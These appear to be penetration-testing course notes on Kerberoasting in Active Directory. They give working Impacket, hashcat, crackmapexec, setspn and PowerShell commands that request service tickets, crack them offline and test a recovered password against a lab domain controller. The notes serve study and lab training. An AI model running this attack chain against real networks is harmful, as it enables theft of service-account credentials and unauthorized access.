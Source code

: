 ## Cooking With Fire (kerberoasting)

## Kerberoasting - From Linux

This attack targets `Service Principal Names (SPN)` accounts.

SPN are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running.

Any domain user can request a Kerberos ticket for any service account in the same domain.

**Depending on your position in a network, this attack can be performed in multiple ways:**

* From a non-domain joined Linux host using valid domain user credentials.
* From a domain-joined Linux host as root after retrieving the keytab file.
* From a domain-joined Windows host authenticated as a domain user.
* From a domain-joined Windows host with a shell in the context of a domain account.
* As SYSTEM on a domain-joined Windows host.
* From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\)) /netonly.
* `Impacket-GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend` → list spn accounts
* `Impacket-GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request` → Requesting all TGS tickets
* `Impacket-GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev` → Requesting a single TGS ticket.

we can use `-outputfil filename` flag to save the TGS ticket in a file.

* `hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt` → cracking Ticket offline using Hashcat
* `sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!` → testing authentication against a domain controller

## Kerberoasting - From Windows

👽 Semi Manual Method

* `C:\htb> setspn.exe -Q */*` → lists various available SPNs
* `PS C:\htb> Add-Type -AssemblyName System.IdentityModel`
* `PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"`
  * The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
  * The `AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
  * [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
  * We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
  * We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session

